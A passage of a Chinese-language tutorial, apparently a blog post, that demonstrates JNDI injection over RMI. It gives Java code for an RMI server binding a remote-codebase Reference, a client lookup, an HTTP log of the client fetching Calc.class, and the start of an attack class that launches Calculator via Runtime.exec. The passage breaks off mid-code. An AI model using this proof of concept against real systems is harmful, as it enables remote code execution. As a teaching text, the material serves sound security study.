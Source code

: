 ```java

    public static void main(String[] args) throws Exception {
        System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase","true");
        Registry registry = LocateRegistry.createRegistry(1099);
        System.out.println("RMI启动，监听：1099 端口");
        Reference reference = new Reference("Calc", "Calc", "http://127.0.0.1:8000/");
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
        registry.bind("hello", referenceWrapper);

        Thread.currentThread().join();
    }
}
```
由于采用的Java版本较高，需先将系统变量`com.sun.jndi.rmi.object.trustURLCodebase`设置为`true`。<br />其中绑定的`Reference`涉及三个变量：

- `className`：远程加载时所使用的类名，如果本地找不到这个类名，就去远程加载；
- `classFactory`：远程的工厂类；
- `classFactoryLocation`：工厂类加载的地址，可以是`file://`、`ftp://`、`http://` 等协议；

此时，通过Python启动一个简单的HTTP监听服务：
```bash
192:~ zzs$ python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
```
打印日志，说明在8000端口进行了http的监听。<br />对应的客户端代码修改为如下：
```java
public class RmiClient {

  public static void main(String[] args) throws Exception {
    System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase","true");
    Hashtable env = new Hashtable();
    env.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");
    env.put(Context.PROVIDER_URL, "rmi://localhost:1099");
    Context ctx = new InitialContext(env);
    ctx.lookup("hello");
  }
}
```
执行，客户端代码，发现Python监听的服务打印如下：
```
127.0.0.1 - - [12/Dec/2021 16:19:40] code 404, message File not found
127.0.0.1 - - [12/Dec/2021 16:19:40] "GET /Calc.class HTTP/1.1" 404 -
```
可见，客户端已经去远程加载恶意class（Calc.class）文件了，只不过Python服务并没有返回对应的结果而已。
<a name="Miqy1"></a>
### 进一步改造
上述代码证明了可以通过RMI的形式进行攻击，下面基于上述代码和Spring Boot Web服务的形式进一步演示。通过JNDI注入+RMI的形式调用起本地的计算器。<br />上述的基础代码不变，后续只微调RmiServer和RmiClient类，同时添加一些新的类和方法。
<a name="JbiNm"></a>
#### 第一步：构建攻击类
创建一个攻击类BugFinder，用于启动本地的计算器：
```java
public class BugFinder {

    public BugFinder() {
        try {
            System.out.println("执行漏洞代码");
            String[] commands = {"open", "/System/Applications/Calculator.app"};
            Process pc = Runtime.getRuntime().exec(commands);
            pc.waitFor();
            System.out.println("完成执行漏洞代码");
        } catch (Exception e) {
            e.printStackTrace();
```